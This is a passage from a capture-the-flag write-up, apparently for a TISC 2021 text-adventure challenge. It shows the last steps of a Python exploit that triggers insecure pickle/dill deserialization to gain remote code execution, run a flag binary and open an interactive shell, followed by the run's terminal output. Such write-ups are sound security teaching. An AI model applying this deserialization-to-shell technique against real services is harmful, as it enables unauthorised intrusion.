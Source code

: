 Finally, we can trigger the deserialization and get a `/bin/sh` shell using a 'get' command. We can
automate the execution of the SUID flag binary as well to obtain the flag. For further exploration,
we drop into an interactive session.

```python
    # Trigger the RCE.
    log.info('Triggering RCE...')
    c.sendline(b'get logs-' + random_filename)
    c.get_until_prompt()
    c.get_until_prompt()

    # Get the flag.
    log.info('Getting the flag by executing /home/rabbit/flag2.bin')
    log.success('Flag 2:')
    c.sendline('/home/rabbit/flag2.bin')
    c.sendline('echo END_OF_FLAG')
    log.success(c.recvuntil(b'END_OF_FLAG').replace(b'END_OF_FLAG', b''))

    # Drop into an interactive shell.
    log.success('Enjoy your shell!')
    c.interactive()
```

Running the exploit:

```shell
root@42c70e7d708e:/opt/wonderland# ./2_insecure_dill_loads.py
[+] Opening connection to 172.17.0.1 on port 31337: Done
[┤] Initialising connection. This will take a moment...
[*] Moving to the a-shallow-deadend to get the pocket-watch...
[*] Disabling text scroll.
[*] Moving to a-curious-hall to drink the pink-bottle...
[*] Moving to a-fancy-pavillion to eat the fluffy-cake...
[*] Moving to a-mystical-cove to get the looking-glass...
[*] Teleporting to under-a-giant-mushroom to get the golden-hookah...
[*] Teleporting to /opt/wonderland/logs
[*] Generating pickle RCE payload...
[*] Writing payload to 106a07e1-80ea-48e4-80a9-f39b4d957083.item
[*] Triggering RCE...
[*] Getting the flag by executing /home/rabbit/flag2.bin
[+] Flag 2:
[+] TISC{dr4b_4s_a_f00l_as_al00f_a5_A_b4rd}
[+] Enjoy your shell!
[*] Switching to interactive mode

$ id
uid=1000(rabbit) gid=1000(rabbit) groups=1000(rabbit)
$
```

The full exploit can be found in [`2_insecure_dill_loads.py`](https://github.com/nnamon/tisc-2021-1865-text-adventure/blob/main/solutions/2_insecure_dill_loads.py).

Flag: `TISC{dr4b_4s_a_f00l_as_al00f_a5_A_b4rd}`
